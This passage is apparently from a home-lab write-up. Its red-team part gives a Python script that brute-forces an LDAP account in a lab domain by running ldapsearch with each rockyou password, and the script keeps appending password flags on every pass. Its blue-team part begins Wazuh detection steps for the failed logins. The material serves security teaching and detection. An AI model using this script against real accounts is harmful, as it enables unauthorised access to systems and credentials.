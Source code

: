 Manually using the ldapsearch command to repeatedly iterate through the rockyou wordlist is tedious and inefficient, so to aid in this process I created a custom python script (shown below). 

```python
import subprocess

password_list = '/usr/share/wordlists/rockyou.txt'
username = 'scarab'
server = '192.168.1.138'

command = ['ldapsearch', 
           '-H', f'ldap://{server}',
           '-D', f'{username}',
           '-b', 'DC=backyard,DC=local',
           ]

with open(password_list) as wordlist:
    
    for password in wordlist:
    
        password = password.strip() # remove whitespace and newlines
        print(f'Trying {password}', end='\r')
        
        command += ['-w', password]
        output = subprocess.run(command, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        
        if output.returncode == 0: # LDAP auth success
            print(f'Matched {password}')
            break
```

Essentially all this python script does is use subprocess to run the ldapsearch tool repeatedly until it finds a password match. It's not super intelligent, if it doesn't find a match it won't tell you - we could modify it to do that but for this exercise this is fine. The script checks for the error code 0 and prints the matched password if the condition is met. The output is suppressed, but can be added back in by modifying the subprocess.run() function if required.

And that's it, within a short space of time the password will be guessed (assuming it exists in the chosen wordlist). The weak password policy and lack of lockout mechanisms make this a trivial exercise, allowing limitless attempts to authenticate into the user despite an array of failed logins.

# Blue Team
### Detection
1. Run the brute forcer script from the red teaming exercise
2. Navigate to Explore/Discover in Wazuh
3. Add a filter for 'data.win.eventdata.targetUserName: scarab'
4. Filter for the last hour

After running the ldap_brute_forcer.py script we can see from the logs that there are 9 authentication failures, and one success. This lines up perfectly with the rockyou.txt wordlist, and is showing exactly as expected. Digging into these failed logins further will unveil some key information which describes the failed logins in more detail:
